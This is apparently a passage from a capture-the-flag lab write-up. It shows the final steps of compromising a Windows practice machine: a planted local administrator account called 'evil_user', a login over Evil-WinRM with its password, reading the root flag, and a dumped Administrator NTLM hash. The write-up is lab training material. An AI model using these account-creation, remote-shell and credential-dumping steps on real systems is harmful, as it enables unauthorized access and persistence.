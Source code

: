We have to add a new user with any driver name and password. Let’s check the newly added user details.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\programdata\demo> net user evil_user

User name                    evil_user
Full Name                    evil_user
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/26/2022 7:38:35 AM
Password expires             Never
Password changeable          2/26/2022 7:38:35 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

As you can see this new user is member of administrators group. Now we can login with these creds.

```
⛩\> evil-winrm -i 10.10.11.106 -u evil_user -p 'Evil_Password'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\evil_user\Documents> more \users\administrator\desktop\root.txt
0905ac32f9eced6cd1c6d096dcd583ac
```

We got the root flag.

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::`

